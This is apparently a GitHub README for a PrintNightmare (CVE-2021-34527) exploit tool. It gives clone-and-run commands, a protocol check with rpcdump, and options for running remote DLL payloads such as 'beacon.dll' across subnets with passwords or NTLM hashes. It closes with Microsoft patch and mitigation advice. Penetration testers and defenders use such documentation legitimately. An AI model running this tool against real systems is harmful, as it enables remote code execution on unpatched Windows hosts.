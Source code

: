 # PrintNightmare (CVE-2021-34527)

This version of the PrintNightmare exploit is heavily based on the code created by [Cube0x0](https://github.com/cube0x0/CVE-2021-1675), with the following features:

* Ability to target multiple hosts.
* Built-in SMB server for payload delivery, removing the need for open file shares.
* Exploit includes both `MS-RPRN` & `MS-PAR` protocols (*define in CMD args*).
* Implements [@gentilkiwi's](https://twitter.com/gentilkiwi) [UNC bypass](https://twitter.com/gentilkiwi/status/1412771368534528001) technique.


## Installation
Before running, install the latest version of [impacket](https://github.com/SecureAuthCorp/impacket):
```commandline
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
python3 setup install

git clone https://github.com/m8sec/CVE-2021-34527
cd CVE-2021-34527
python3 CVE-2021-34527.py -h
```

## Test
Impacket's `rpcdump.py` can be used to check for `MS-PAR` and `MS-RPRN` protocols:
```
>> rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

Alternatively, [byt3bl33d3r's](https://twitter.com/byt3bl33d3r) scanner [ItWasAllADream](https://github.com/byt3bl33d3r/ItWasAllADream) can be used to scan targets and validate the PrintNightmare RCE vulnerability.


## Screenshots
![pnm](https://user-images.githubusercontent.com/13889819/186430046-44143e63-9f29-4109-a4f1-4b005b78a17b.png)


## Usage
```text
  -v VERBOSE            Enable verbose logging from SMB server
  -t TIMEOUT            Connection timeout

Authentication:
  -u USERNAME           Set username
  -H HASH, -hashes      Use NTLM Hash for authentication
  -p PASSWORD           Set password
  -d DOMAIN             Set domain
  --local-auth          Authenticate to target host, no domain

DLL Execution:
  -dll DLL                  Path to local DLL file to execute "beacon.dll"
  --remote-dll REMOTE_DLL   Remote dll "\\192.168.1.25\Share\beacon.dll"
  -share SHARE              Set local SMB share name
  --local-ip LOCAL_IP       Set local IP (defaults to primary interface)

Target(s):
  -pDriverPath PDRIVERPATH  Define Driver path. Example 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL'
  -port [destination port]  Destination port to connect to SMB Server
  -proto {MS-RPRN,MS-PAR}   Target protocol (Default=MS-RPRN)
  target                    192.168.2.2, target.txt, 10.0.0.0/24 (positional)
```


## Remediation
Microsoft has released several patches for PrintNightmare, the latest being on Patch Tuesday of September 2021. This addressed the underlying vulnerability and later workarounds discovered. For more information, visit Microsoft's official guidance:

[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)

Additional [strategies](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527#workarounds) for mitigating this vulnerability include:
* Disabling the Print Spooler service on non-essential systems.
* Disable inbound remote printing through Group Policy


## Acknowledgement
* [@cube0x0](https://twitter.com/cube0x0) - for the Python [exploit](https://github.com/cube0x0/CVE-2021-1675) code and his contributions to the [impacket](https://github.com/SecureAuthCorp/impacket) project. 
* [@edwardzpeng](https://twitter.com/edwardzpeng) & [@lxf02942370](https://twitter.com/lxf02942370)- for the initial discovery and exploit of PrintNightmare.

